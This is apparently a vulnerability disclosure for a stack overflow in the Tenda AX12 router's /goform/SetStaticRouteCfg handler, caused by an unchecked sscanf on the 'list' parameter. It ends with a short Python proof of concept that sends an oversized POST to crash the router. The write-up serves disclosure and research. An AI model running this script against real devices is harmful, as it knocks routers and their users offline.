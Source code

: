 Affect device: Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetStaticRouteCfg` page which influences the lastest version of Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

There is a stack overflow vulnerability in the `sub_42E328` function.

First, this function calls the `sub_42E030` function.

![image-20220209190513500](image/1.png)

In the `sub_42E030` function:

![image-20220209190531902](image/2.png)

The `v3` variable is obtained directly from the http request parameter `list`.

Then `v3` will be splice to stack by function `sscanf` without any security check, which causes stack overflow.

So by POSTing the page `/goform/SetStaticRouteCfg` with long `list`, the attacker can easily perform a Denial of Service(DoS).

# POC

Poc of Denial of Service(DoS):

```python
import requests

url = "http://192.168.0.1/goform/SetStaticRouteCfg"
list_data = 'a'*0x1000 + '~'

r = requests.post(url, data={'list': list_data})
print(r.content)
```

